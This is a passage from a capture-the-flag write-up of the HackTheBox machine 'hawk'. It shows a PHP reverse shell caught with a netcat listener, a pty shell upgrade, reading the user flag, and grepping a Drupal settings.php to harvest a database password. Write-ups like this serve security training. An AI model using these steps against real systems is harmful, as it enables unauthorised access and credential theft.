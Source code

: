 
The same way I make another page but this time I copy the `php reverse shell` on it.As soon as I save it I get a shell on my machine.

```bash
┌──(kali㉿kali)-[~/Downloads/hackthebox/hawk/openssl-bruteforce]
└─$ nc -lvnp 4444        
listening on [any] 4444 ...
connect to [10.10.14.3] from (UNKNOWN) [10.10.10.102] 57568
Linux hawk 4.15.0-23-generic #25-Ubuntu SMP Wed May 23 18:02:16 UTC 2018 x86_64 x86_64 x86_64 GNU/Linux
 08:03:39 up  1:26,  0 users,  load average: 0.01, 0.00, 2.60
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ python3 -c 'import pty; pty.spawn("/bin/bash")'
www-data@hawk:/$ id
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

On checking I find that we have read permission for user.txt

```bash
www-data@hawk:/$ ls /home
ls /home
daniel
www-data@hawk:/$ ls -la /home/daniel
ls -la /home/daniel
total 36
drwxr-xr-x 5 daniel daniel 4096 Jul 27 15:25 .
drwxr-xr-x 3 root   root   4096 Jun 16  2018 ..
lrwxrwxrwx 1 daniel daniel    9 Jul  1  2018 .bash_history -> /dev/null
drwx------ 2 daniel daniel 4096 Jul 27 15:25 .cache
drwx------ 3 daniel daniel 4096 Jun 12  2018 .gnupg
-rw------- 1 daniel daniel  136 Jun 12  2018 .lesshst
-rw------- 1 daniel daniel  342 Jun 12  2018 .lhistory
drwx------ 2 daniel daniel 4096 Jun 12  2018 .links2
lrwxrwxrwx 1 daniel daniel    9 Jul  1  2018 .python_history -> /dev/null
-rw------- 1 daniel daniel  814 Jun 12  2018 .viminfo
-rw-r--r-- 1 daniel daniel   33 Oct 22 06:37 user.txt
www-data@hawk:/$ cat /home/daniel/user.txt
cat /home/daniel/user.txt
23ea5bb1ce81dd1adfd8bb2fd4aeb73e
```

## PRIVESEC

Since we already know the username is `daniel` so I tried to find password in the html directory.

```bash
www-data@hawk:/var/www/html/sites/default$ cat settings.php | grep password
cat settings.php | grep password
 *   'password' => 'password',
 * username, password, host, and database name.
 *   'password' => 'password',
 *   'password' => 'password',
 *     'password' => 'password',
 *     'password' => 'password',
      'password' => 'drupal4hawk',
 * by using the username and password variables. The proxy_user_agent variable
# $conf['proxy_password'] = '';
```
